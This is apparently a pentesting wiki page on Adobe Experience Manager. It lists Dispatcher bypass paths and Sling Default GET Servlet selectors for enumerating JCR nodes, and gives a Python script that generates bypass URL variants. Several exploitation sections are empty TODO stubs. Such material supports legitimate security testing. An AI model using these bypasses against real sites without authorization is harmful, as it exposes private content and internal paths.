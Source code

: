 ```yaml
---
title: Adobe Experience Manager (AEM)
description: Adobe Experience Manager (AEM) is an enterprise-grade CMS and is quite popular among high-profile companies.
badge: Java
---
```



## Good resources

<iframe class="w-full" height="350" src="https://www.youtube-nocookie.com/embed/EQNBQCQMouk" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

### Writeups

 - [Remote Code Execution (RCE) on Microsoft's 'signout.live.com'](http://www.kernelpicnic.net/2016/07/24/Microsoft-signout.live.com-Remote-Code-Execution-Write-Up.html)

## The tech

Adobe Experience Manager (aka AEM), recently rebranded to Adobe Experience Cloud, is a quite popular enterprise-grace CMS among high-profile companies. 

Under the hood **AEM** is using [Apache Sling](https://sling.apache.org/) wich at the same time is a RESTful web-application framework for [Apache Jackrabbit](https://jackrabbit.apache.org/). On top of that sits the [Dispatcher](https://experienceleague.adobe.com/docs/experience-manager-dispatcher/using/dispatcher.html?lang=en), wich is intended to pass requests around and is commonly the only protection for AEM sites (Appart from the classic Waf you find in front of anything). This tech stack ends up creating what I personally understand as a huge mess that allows crazy bypassess such as:

 - `/admin` --> 404
 - `/admin.html/.json` --> 200 

This is due to an impropper configuration of the **Dispatcher**, wich is a very common scenario as configuring it is not preciesly a piece of cake:
 - [Adobe's official documentation on Configuring Dispatcher](https://experienceleague.adobe.com/docs/experience-manager-dispatcher/using/configuring/dispatcher-configuration.html?lang=en)


### AEM Common Deploy Models


![AEM Basic and Standard Deployment Model](/aem_deploy_model_basic.jpg)



### Apache Sling & Apache JackRabbit



#### JCR Nodes





### AEM Dispatcher

It actually is a module for the Web server (Apache, IIS...). It provides _security_ (acts more or less like a waf) and _caching layers_. Both are important functionalities to have in mind while pentesting AEM as cache can sometimes fool us away from valid bypasses to this security layer. Two things usually happen here:

 1. In theroy, AEM Dispatcher **offers an extra layer of security** to the AEM infraestructure, but in practice this will, very likely, be the only thing in front of it (**_if any_**). Which is a huge problem as it is relatively straigth-forward to find bypassess for routes for the Dispatcher due to the `.extenxion` mechanics of Apache Sling.
 2. Mantaining every component on _Publish_ updated an securely configured is hard, specially if you think that attackers have no way of accesing them.

With this in mind, the idea is clear, try to find super juicy hidden gems behind the Dispatcher and _profit!_






## Fingerprinting



## Discovery




## Exploitation


### Dispatcher bypasses

This bypasses will help you abuse the other exploitaition techniques exposed here so keep them in mind.

#### Appending stuff (CVE-2016-0957)

Here 

```txt[common_bypasses.txt]
/a.css
/a.html
/a.ico
/%0aa.css
/a.1.json
```

#### Using multiple slashes
Using multiple slashes can get you some bypasses. For example:
 - `///etc.json` instead of `/etc.json`
 - `///bin///querybuilder.json` instead of `///bin///querybuilder.json`


### Default GET Servlets
Huge profit right here; you can stop the `gobuster` you have running in the background already, as this is even going to list even that juicy `/bin/S3cr3t/RANDOM_STR/NO_WAY_THIS_IS_IN_A_WORDLIST` path. This is a feature in Apache Sling you can find more info about in:
 - [Rendering Content - Default GET Servlets](https://sling.apache.org/documentation/bundles/rendering-content-default-get-servlets.html)


So, the idea behind this is that you can retrieve JCR nodes with its props (size, authors/usernames, dates, filenames, child node names...). This can work on any path for the AEM site and you can build _queries_ against them like this:

![How to get JCR nodes](/aem_defaultgetservlet_selection_guide.png)


To _build_ such URLs you can use the following params:

 - **Selectors:**
    - `tidy`: _pretty-prints_ json
    - `infinity`
    - `children`: Holds a list of every children node. You will list literally everything the server has (_Huge profit!_)
    - `childrenlist`: Same behaviour as children(_Huge profit!_)
    - `ext`
    - A numeric value: `-1`, `0`, `1...99999`: The number would typically be the _depth_ of the results (-1 being infinite). A depth of 3 would traverse 3 nodes.
 - **Formats:**
    - `json`
    - `txt`
    - `xml`
    - `res`: Very useful to retrieve files (More info at the [Sling documentation](https://sling.apache.org/documentation/bundles/rendering-content-default-get-servlets.html#streamrendererservlet))

You can use the following script to generate routes to test if the Default Get Servlets are in use:

```python[getservlet_paths.py]
import itertools
import string
import random

CACHE_BUSTER_LEN = 3
JUICY_NODES = ['/', '/etc', '{{ extra-paths /bin }}', '/var', '/apps', '/home']
JUICY_NODES = [p for pair in map(lambda x: (x, x.replace('/', '///')), JUICY_NODES) for p in pair]

GETSERVLET = itertools.product(JUICY_NODES, ('', '.children', '.childrenlist'),('.json', '.1.json', '....4.2.1....json', '.json?{0}.css', '.json?{0}.ico', '.json?{0}.html','.json/{0}.css', '.json/{0}.html', '.json/{0}.png', '.json/{0}.ico','.json;%0a{0}.css', '.json;%0a{0}.png', '.json;%0a{0}.html', '.json;%0a{0}.ico'))

for path in ['{0}{1}{2}'.format(p1, p2, p3.format('{0}')) for p1, p2, p3 in GETSERVLET]:
    print(path.format(''.join(random.choice(string.ascii_letters) for _ in range(CACHE_BUSTER_LEN))))
```

You can execute the script from above as a _"one-liner"_ directly pasting it in `python -c ""` (Nasty but works).



### Query Builder API

It generally sits at `/bin/querybuilder.json`

You can find more information on the following resources:
 - [Adobe - Query Builder API](https://experienceleague.adobe.com/docs/experience-manager-65/developing/platform/query-builder/querybuilder-api.html?lang=en)


It is very useful. Allows you to search and even get node contents. Take 

> TODO


### ReportingServicesProxy SSRF

> TODO


### SalesforceSecretServlet SSRF

> TODO


### SiteCatalystServlet SSRF

> TODO



### AutoProvisioningServlet SSRF

> TODO


### SSRF to RCE

> TODO




## Local testing environment

If you manage to get the required installation `.jar` and license `license.properties` files from Adobe, the following repos might help you out:

 - [AEM & Docker getting started guide](https://github.com/remcorakers/aem-docker-getting-started)
 - [Creating AEM in Docker](https://github.com/PrabhuVignesh/aem-in-docker)